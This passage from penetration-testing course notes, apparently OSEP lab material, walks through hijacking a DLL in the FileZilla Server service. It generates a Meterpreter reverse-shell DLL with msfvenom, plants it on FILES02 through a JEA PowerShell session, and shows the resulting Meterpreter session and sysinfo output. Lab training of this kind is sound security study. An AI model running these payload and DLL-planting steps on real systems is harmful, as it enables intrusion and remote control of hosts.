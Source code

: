 Figure 3: Process Monitor Filters

With the filters set, we'll start the FileZilla-Server service. Once started, we'll find the _filezilla-server.exe_ as shown in the below Figure:

![[OffSec/OSEP/Course/z. images/058bcfda3d55a7018456f0f3ba1ad535_MD5.jpg]]

Figure 4: Process Monitor filezilla-server.exe

The result indicates that the FileZilla service attempts to load DLLs from the directory where it is loaded, which is expected. This is by no means a vulnerability, but given that we have administrative access, we should be able to take advantage of it on _FILES02_ since we have write privileges to the **C:\Program Files\FileZilla Server\** folder.

Which DLL to replace depends on several factors. As the DLLs are typically loaded as a part of the process of starting a service, the operating system loads the required DLLs into the process's address space before the main function begins executing. This allows the process to call functions in those DLLs as soon as it starts running.

If a DLL fails to load correctly, it can cause the service to fail. In other words, the service may crash before it gets to the point where it would execute the code in our custom DLL.

We can also use a technique referred to as DLL proxying. This leverages the DLL search order in the same way, but the malicious DLL will forward calls to the legitimate DLL to avoid disrupting the service's normal operation.

Finding which DLL to create may require some trial and error. In our case, it appears we can replace three of the six possible DLLs to obtain a shell on _CLIENT01_ while two of them allow the service to start. In this case, we'll create a payload following the naming of **msasn1.dll**.

```
kali@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.48.4 LPORT=443 -a x64 --platform windows -f dll > msasn1.dll
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
```

> Listing 37 - Generating payload with msfvenom

After testing this on _CLIENT01_ and successfully getting a shell, we'll move back to _CLIENT02_, where we are logged in with the _mary_ user. We'll use the JEA configuration to copy the file to the **C:\Program Files\FileZilla Server\** directory on _FILES02_.

```
PS C:\> Enter-PSSession -ComputerName files02 -ConfigurationName j_fs02
[files02]: PS>[files02]: copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"
```

> Listing 38 - Copying msasn1.dll from mary home folder to _FILES02_ destination folder

With the DLL in place, we need to wait for someone to restart the target machine. We'll simulate the restart by logging in to _FILES02_ as the _adam_ user.

Once the system has rebooted and the service starts, we get a shell.

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.48.4:443 
[*] Sending stage (200774 bytes) to 192.168.50.105
[*] Meterpreter session 1 opened (192.168.48.4:443 -> 192.168.50.105:49707) at 2023-05-24 12:25:52 -0400

meterpreter > sysinfo
Computer        : FILES02
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : CORP
```

[files02]: PS>whoami
[files02]: PS>[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
[files02]: PS>Get-Command
[files02]: PS> Copy-Item -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\shares\home\mary'